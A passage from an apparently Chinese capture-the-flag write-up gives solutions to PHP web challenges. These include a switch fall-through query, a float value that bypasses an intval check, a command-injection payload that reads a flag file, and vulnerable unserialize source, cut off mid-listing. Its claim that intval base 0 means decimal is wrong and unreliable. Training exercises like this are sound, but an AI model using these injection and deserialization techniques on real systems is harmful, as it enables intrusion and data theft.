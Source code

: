 switch没有break，所以直接传flag

get:`/?b=a[0]=s155964671a&which=flag`

if(intval($num,0) == 2024)

在 PHP 中，`intval($num, 0)` 函数将字符串或数字转换为整数，并且第二个参数 `0` 指定了使用默认的基数（即十进制）。

所以可以传入浮点数绕过。

post:`num=2024.2`

#### 1z_php

post: `J=sort /f14g;`

#### ezserialize

```php
<?php
error_reporting(0);

class Flag {
    private $flag;

    public function __construct() {
        $this->flag = file_get_contents('/flag');
    }

    public function getFlag() {
        return $this->flag;
    }

    public function __toString() {
        return "You can't directly access the flag!";
    }
}

class User {
    public $username;
    public $isAdmin = false;

    public function __construct($username) {
        $this->username = $username;
    }

    public function __wakeup() {
        if ($this->isAdmin) {
            echo "Welcome, admin! Here's your flag: " . (new Flag())->getFlag();
        } else {
            echo "Hello, " . htmlspecialchars($this->username) . "!";
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];

    $object = unserialize($data);
    if ($object instanceof User) {
        echo $object;
    } else {
        echo "Invalid object!";
    }
} else {
    highlight_file(__FILE__);

```